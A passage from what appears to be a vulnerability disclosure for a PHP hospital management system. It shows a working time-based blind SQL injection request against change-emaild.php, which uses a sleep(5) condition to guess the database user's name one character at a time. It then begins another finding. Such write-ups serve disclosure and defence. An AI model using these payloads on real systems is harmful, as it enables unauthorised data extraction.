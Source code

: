 The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/change-emaild.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 97
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/change-emaild.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

email=1@2qaz.com'|if(substring((select user() limit 0,1),1,1)='r',sleep(5),1) where id=2#&submit=
```
The first letter of the current database user(root) obtained through SQL injection is ‘r’, and the query result is correct, so the request is delayed about 5 seconds:

![27.png](./img/27.png)

If you query the following statement:
email=1@2qaz.com'|if(substring((select user() limit 0,1),1,1)='b',sleep(5),1) where id=2#&submit=
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:

![28.png](./img/28.png)


**[10]**

In \hms\ check_availability.php:

![29.png](./img/29.png)
